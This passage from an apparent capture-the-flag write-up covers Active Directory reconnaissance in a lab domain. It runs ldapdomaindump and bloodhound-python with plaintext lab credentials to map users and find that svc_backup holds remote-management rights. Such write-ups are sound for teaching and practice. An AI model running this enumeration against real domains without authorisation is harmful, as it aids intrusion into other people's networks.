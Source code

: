 ```
syafiq.kyle                                           2025-07-09 07:53:12.003636  <never>             
svc_backup                                            2025-08-31 16:32:43.197834  2025-08-31 16:33:07.870012 
```

Then, we can try to use the <code>ldapdomaindump</code> command to get more information:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ ldapdomaindump ldap://192.168.211.142 -u 'BAHTERA.CORP\lc.wei' -p 'I_am_the_one'
```

In <code>domain_users.html</code>:
```html
<tr><td>svc backup</td><td>svc backup</td><td>svc_backup</td><td><a href="domain_users_by_group.html#cn_Remote_Management_Users" title="CN=Remote Management Users,CN=Builtin,DC=bahtera,DC=corp">Remote Management Users</a></td><td><a href="domain_users_by_group.html#cn_Domain_Users" title="CN=Domain Users,CN=Users,DC=bahtera,DC=corp">Domain Users</a></td><td>07/09/25 01:40:15</td><td>08/11/25 14:19:20</td><td>07/09/25 06:35:30</td><td>NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD</td><td>08/11/25 14:19:20</td><td><abbr title="S-1-5-21-328874485-916303621-2090111871-1113">1113</abbr></td><td>&nbsp;</td></tr>
```

We can see here that the <code>svc_backup</code> user is the only user able to do **Remote Management** among other normal user.

I also use the <code>Bloodhound</code> to ease up the work in **viewing the relationship between the users in the domain**. We need to run the command before we can map the relationships in <code>Bloodhound GUI</code>:
```
bloodhound-python -u lc.wei -p 'I_am_the_one' -d bahtera.corp -dc DC01.bahtera.corp -c All --dns-tcp -ns 192.168.211.142
```

Then, upload all the <code>.json</code> files created into the <code>Bloodhound GUI</code> to check the relationship between user <code>lc.wei</code> and user <code>svc_backup</code>:

![bloodhound](bloodhound.png)
